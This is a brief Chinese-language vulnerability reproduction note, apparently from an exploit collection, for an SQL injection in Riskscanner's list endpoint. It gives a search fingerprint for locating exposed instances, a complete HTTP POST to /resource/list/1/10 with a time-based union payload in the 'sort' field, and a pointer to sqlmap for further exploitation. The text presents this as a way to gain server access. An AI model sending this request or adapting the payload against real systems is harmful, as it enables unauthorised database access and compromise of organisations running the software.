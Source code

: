 # Riskscanner list SQL注入漏洞

## 漏洞描述

Riskscanner list接口存在SQL注入漏洞，通过漏洞可获取服务器权限

## 漏洞影响

```
Riskscanner
```

## 网络测绘

```
title="Riskscanner"
```

## 漏洞复现

登录页面



![](./images/202202101940023.png)



发送漏洞请求包



```plain
POST /resource/list/1/10 HTTP/1.1
Host: 
Content-Length: 41
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Content-Type: application/json;charset=UTF-8

{"sort":"1)a union select sleep(5) -- -"}
```



![](./images/202202101940005.png)



使用工具Sqlmap



![](./images/202202101940424.png)
